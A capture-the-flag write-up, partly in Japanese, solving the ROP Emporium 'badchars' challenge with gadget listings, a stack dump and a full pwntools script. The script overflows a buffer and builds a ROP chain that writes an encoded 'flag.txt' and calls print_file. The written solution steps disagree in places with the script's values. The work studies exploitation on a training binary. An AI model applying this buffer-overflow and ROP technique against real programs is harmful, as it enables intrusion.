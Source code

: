 # badchars (ROP Emporium 5)

## Information

write4と大体同じ

compare badchars: 'x', 'g', 'a', '.' as '0x78', '0x67', '0x61', '0x2e' -> 0xeb

### just idea
1. set r12: "flag.txt" (with ROP gadget)
2. set r13: 0x601028
3. call usefulGadget: 0x400628
4. set rdi: 0x601028
5. call `print_file`: 0x400510

'flag.txt': `a`, `g`, `.`, `x` are badchars 

### usefulGadgets
```asm
400628:	45 30 37             	xor    BYTE PTR [r15],r14b
40062b:	c3                   	ret
40062c:	45 00 37             	add    BYTE PTR [r15],r14b
40062f:	c3                   	ret
400630:	45 28 37             	sub    BYTE PTR [r15],r14b
400633:	c3                   	ret
400634:	4d 89 65 00          	mov    QWORD PTR [r13+0x0],r12
400638:	c3                   	ret
400639:	0f 1f 80 00 00 00 00 	nop    DWORD PTR [rax+0x0]
```

[r15] = [r15] ^ r14b

```
f  l  a  g  .  t  x  t
66 6c 61 67 2e 74 78 74
66 6c 62 68 62 74 79 74
      -1 -1-34    -1
```

### Gadget
```asm
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040069e : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006a0 : pop r14 ; pop r15 ; ret
0x00000000004006a2 : pop r15 ; ret

0x00000000004006a3 : pop rdi ; ret
```

### Stack
```bash
00:0000│ rsp 0x7fffffffdc10 ◂— 0
... ↓        3 skipped
04:0020│ rsi 0x7fffffffdc30 ◂— 0xa6a696f647361 /* 'asdoij\n' */
05:0028│-018 0x7fffffffdc38 ◂— 0
... ↓        2 skipped
08:0040│ rbp 0x7fffffffdc50 —▸ 0x7fffffffdc60 ◂— 1
09:0048│+008 0x7fffffffdc58 —▸ 0x400610 (main+9) ◂— mov eax, 0
```

## Solution
1. set r12: "b"*8
2. set r13: 0x601030
3. call usefulGadget: 0x400634  (fin -> 0x601030: flbbbbbb)
4. set r15: 0x601032 (a)
5. set r14: 0x1
6. call usefulGadget: 0x400630
7. set r15: 0x601033 (g)
8. call usefulGadget: 0x400630
9. set r15: 0x601036 (x)                 
10. call usefulGadget: 0x400630
11. set r15: 0x601034 (.)
12. set r14: 0x34
13. call usefulGadget: 0x400630
14. set rdi: 0x601030
15. call `print_file`: 0x400510

## Script
```python
from pwn import *

#conn = gdb.debug('./badchars')
conn = process('./badchars')

payload = b'A'*0x28
payload += p64(0x40069c)
payload += b'flbhbtyt'    # r12
payload += p64(0x601030)  # r13
payload += p64(0x601038)  # r14, dummy
payload += p64(0x601038)  # r15, dummy but available address
payload += p64(0x400634)  # usefulGadgets

payload += p64(0x4006a0)
payload += p64(0x1) # r14
payload += p64(0x601032) # r15
payload += p64(0x400630) # usefulGadgets

payload += p64(0x4006a2)
payload += p64(0x601033)
payload += p64(0x400630)

payload += p64(0x4006a2)
payload += p64(0x601036)
payload += p64(0x400630)

payload += p64(0x4006a0)
payload += p64(0x34)
payload += p64(0x601034)
payload += p64(0x400630)

payload += p64(0x4006a3)
payload += p64(0x601030)
payload += p64(0x400510)

conn.sendlineafter('> ', payload)
conn.interactive()
```